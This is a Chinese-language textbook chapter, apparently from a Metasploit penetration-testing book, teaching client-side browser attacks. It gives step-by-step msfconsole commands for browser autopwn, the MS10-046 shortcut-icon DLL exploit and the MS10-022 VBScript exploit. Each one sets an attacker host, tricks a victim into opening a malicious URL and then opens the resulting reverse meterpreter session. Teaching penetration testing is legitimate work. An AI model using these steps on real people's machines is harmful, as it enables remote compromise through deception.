# 第六章：客户端利用

在上一章中，我们完成了漏洞扫描和信息收集阶段。在本章中，我们将讨论各种可能危害我们受害者（客户端）的方式。我们将涵盖各种技术，如诱使受害者点击 URL 或图标，最终为我们提供反向 shell。

# 什么是客户端攻击？

在前几章中，我们的手已经被一些基本的利用弄得很脏，现在我们转向客户端攻击。但是要理解客户端攻击，我们首先需要对客户端-服务器架构有清晰的概念，并区分两个组件之间的攻击。服务器是共享其网络资源的主要计算机，客户端（即网络上的其他计算机）使用这些资源。每个故事都有负面方面。因此，由于服务器向客户端提供服务，它可能也会暴露可被利用的漏洞。现在，当攻击者攻击服务器时，他可能会对服务器进行拒绝服务攻击，最终导致所有服务崩溃。具体来说，这是一种服务器端攻击，因为我们实际上试图攻击服务器而不是任何客户端。

客户端攻击仅限于客户端，并针对可能在该特定计算机上运行的易受攻击的服务和程序。如今，趋势正在改变，更加关注客户端而不是服务器端攻击。根据一般趋势，服务器通常被锁定，只提供最少的服务和受限的访问。这使得攻击服务器变得非常困难，因此黑客们更倾向于易受攻击的客户端。可以对客户端发起大量攻击，如基于浏览器的攻击和易受攻击的服务利用。此外，客户端操作系统有多个应用程序，如 PDF 阅读器、文档阅读器和即时通讯工具。由于它们被忽略为安全配置错误，通常不会更新或修补安全漏洞。因此，使用简单的社会工程技术对这些易受攻击的系统发起利用非常容易。

## 浏览器漏洞

浏览器漏洞已经被人们知晓很长时间了。框架和扩展有时也是被利用的原因。我们最近听说了一些最新版本的浏览器，如 Chromium、Internet Explorer 和 Mozilla 被攻破的消息。恶意代码可能利用浏览器内置的任何形式的 ActiveX、Java 和 Flash 来增强用户体验。受到此类攻击影响的受害者可能会发现其主页、搜索页面、收藏夹和书签被更改。可能会发生设置或 Internet 选项被更改以降低浏览器安全级别的情况，从而使恶意软件更加普遍。

### 教程

在教程部分，我们将向您展示一些通过受害者浏览器运行的漏洞利用。

我们将展示的第一个利用被称为浏览器 autopwn。首先打开终端并启动`msfconsole`。现在输入`use auxiliary/server/browser autopwn`。



然后输入`show options`以详细查看我们必须在利用中设置的所有选项。



在前面的图中，我们可以看到**必需**列中哪些选项是必需的，哪些是不必需的。 **是**表示我们必须设置该选项，**否**表示该选项可以使用其默认设置。因此，第一个必需的选项是`LHOST`。它需要反向连接的 IP 地址，因此在这里我们设置攻击者的机器 IP。要这样做，请输入`set LHOST 192.168.11.23`。

设置`LHOST`地址后，下一个要设置的是`SRVHOST`。`SRVHOST`表示服务器本地主机地址。我们通过输入`set SRVHOST 192.168.11.23`来设置我们的本地机器地址。



现在，要设置`SRVPORT`，也就是本地端口地址，我们输入`set SRVPORT 80`。

所有设置都完成了。现在是运行辅助模块的时候了；输入`run`。

运行辅助模块后，我们可以看到它在本地主机上启动了利用模块。此外，它提供了一个恶意 URL，我们必须提供给受害者。这是一种简单的社会工程技术，用户被诱使点击恶意 URL。

现在，当 URL 在受害者的系统中打开时，它将向攻击者的系统发送一个反向连接。让我们看看这是如何工作的。

运行 URL 后，我们可以在`msfconsole`中看到已建立反向连接，并且`notepad.exe`进程迁移到了 1804。



我们可以通过任务管理器在受害者的系统中看到迁移的进程。

要检查已创建的`meterpreter`会话，输入`sessions`。



现在选择`meterpreter`会话以利用受害者的系统。要选择会话，要使用的命令是`sessions –i <Id>`；例如，在这里我们使用`sessions –i 1`。

选择一个会话后，我们立即获得了`meterpreter`会话。然后我们可以进行进一步的利用。例如，在前面的图中，我们可以看到用于检查系统信息的`sysinfo`命令。

## Internet Explorer 快捷方式图标利用漏洞

我们将演示的另一个浏览器利用漏洞是包含恶意 DLL 的快捷方式图标。这个利用漏洞是在 Windows XP 下的 IE 6 上运行的社会工程攻击。我们只需要诱使我们的受害者点击链接来在他的系统上运行利用漏洞。启动`msfconsole`并输入`use windows/browser/ms10_046_shortcut_icon_dllloader`。



现在输入`show options`以查看详细的所有选项，我们需要设置利用漏洞。



所需的第一个选项是`SRVHOST`。它需要反向连接的 IP 地址，所以我们通过输入`set SRVHOST 192.168.0.109`来设置攻击者的机器 IP。

现在设置`SRVPORT`地址，也就是本地端口地址，输入`set SRVPORT 80`。

下一个选项是通过输入`set URIPATH /`将`URIPATH`路径设置为默认设置。

现在所有选项都设置好了，准备运行利用漏洞。输入`exploit`。



现在轮到你进行一些巧妙的社会工程了。将 URL 提供给受害者，然后等待反向连接。

在浏览器中打开 URL 将创建一个快捷方式图标和一个 DLL 文件。此时，在`msfconsole`中创建了一个`meterpreter`会话，我们的受害者已经受到了威胁。现在让我们通过输入`sessions`来检查会话。

我们可以看到已创建了一个会话。现在选择`meterpreter`会话以利用受害者的系统。要选择会话，要使用的命令是`sessions –i <Id>`；例如，在这里我们使用`sessions –i 1`。



选择会话后，我们成功接收`meterpreter`；然后我们可以进一步利用客户端系统。

## 互联网浏览器恶意 VBScript 代码执行利用

我们还有另一个有趣的利用，它类似于我们之前的利用，并使用相同的条件和软件版本。这次我们将向您展示当受害者在恶意 VBScript 在网页上生成的消息框出现后按下*F1*按钮时发生的代码执行漏洞。

要使用此利用，启动`msfconsole`并输入`use exploit/windows/browser/ms10_022_ie_vbscript_winhlp32`。

现在输入`show options`以查看在利用中必须设置的所有选项。



第一个所需的选项是`SRVHOST`。它需要反向连接的 IP 地址，因此我们设置攻击者的机器 IP。例如，在这里我们输入`set SRVHOST 192.168.0.105`。

现在通过输入`set SRVPORT 80`来设置`SRVPORT`号码。

下一个选项是将`URIPATH`路径设置为默认设置，输入`set URIPATH /`。

现在所有选项都已设置好，准备运行利用，输入`exploit`。

接下来，我们只需要运用一些社会工程技巧，让我们的受害者点击 URL。我们把 URL 给我们的受害者，让他点击它。在 Internet Explorer 中打开 URL 后，会弹出一个消息框，显示消息**欢迎！按 F1 键关闭此对话框。**

按下*F1*后，恶意 VBScript 将在浏览器中运行并发送一个名为`calc.exe`的有效载荷。



执行`.exe`文件后，它将与攻击者的机器建立一个反向连接并创建一个`meterpreter`会话。输入`sessions`以检查可用的会话。

我们可以看到这里已经创建了一个会话。现在选择`meterpreter`会话以利用受害者的系统。为了选择会话，我们使用命令`sessions –i <Id>`；例如，在这里我们使用`sessions –i 1`。



选择会话后，我们成功接收`meterpreter`；然后我们可以进一步利用受害者机器。

# 总结

在本章中，我们成功演示了一些利用客户端的利基利用。这些利用是专门针对客户端系统通过浏览器或恶意链接以及一些社会工程技巧。安全手册中的一个黄金法则是永远不要点击未知链接，在我们的案例中，我们能够突破受害者的防御。这就是 Metasploit 的最佳部分——攻击向量的数组如此之大，如果某些方法不起作用，另一个一定会起作用。因此，建议所有人避免点击链接，运行未知的可执行文件，并回复来自恶意人士的电子邮件。下一章将涉及一些关于后期利用的技术，所以请继续关注；我们还有很多利用技巧要学习。

# 参考资料

以下是一些有用的参考资料，可以进一步阐明本章涉及的一些主题：

+   [`blog.botrevolt.com/what-are-client-side-attacks/`](http://blog.botrevolt.com/what-are-client-side-attacks/)

+   [`en.wikipedia.org/wiki/Browser_exploit`](http://en.wikipedia.org/wiki/Browser_exploit)

+   [`www.securitytube.net/video/2697`](http://www.securitytube.net/video/2697)
